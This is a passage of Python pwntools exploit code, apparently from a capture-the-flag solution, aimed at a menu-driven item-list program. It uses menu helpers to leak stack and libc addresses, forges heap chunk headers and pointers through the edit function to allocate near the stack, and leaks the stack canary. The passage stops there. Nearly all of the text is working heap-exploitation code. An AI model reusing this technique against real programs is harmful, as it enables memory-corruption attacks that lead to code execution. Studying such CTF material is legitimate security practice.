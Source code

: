 ```python
    r.sendlineafter('7. Exit', '3')
    r.sendlineafter('items?', str(size))
    r.sendlineafter('add?', str(count))

def remove_item(ID):
    r.sendlineafter('7. Exit', '4')
    r.sendlineafter('remove?', str(ID))

def edit_item(ID, payload):
    r.sendlineafter('7. Exit', '5')
    r.sendlineafter('edit?', str(ID))
    r.sendlineafter('name:', payload)

def add_default():
    r.sendlineafter('7. Exit', '6')

def _exit():
    r.sendlineafter('7. Exit', '7')

add_default()
stack = u64(dump_all()[0].ljust(8, '\x00'))
log.info('stack ' + hex(stack))
remove_item(0)

add_empty(1, 4)
remove_item(1)
remove_item(1)
payload  = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x21)
payload += p64(stack - 0x1b)
edit_item(0, payload)
add_empty(1, 2)

libc = u64(dump_all()[3].ljust(8, '\x00')) - 0x20830
log.info('libc ' + hex(libc))

remove_item(0)
remove_item(0)
remove_item(0)

payload  = p64(libc + 0x20830)
payload += p64(0)
payload += p64(0x4100)
edit_item(0, payload)

add_empty(2, 4)
remove_item(2)
remove_item(2)
payload  = p64(0) * 7
payload += p64(0x41)
payload += p64(0) * 7
payload += p64(0x41)
payload += p64(stack - 2)
edit_item(1, payload)
add_empty(2, 2)

remove_item(1)
remove_item(1)
remove_item(1)

canary = u64(dump_all()[1][:7].rjust(8, '\x00'))
```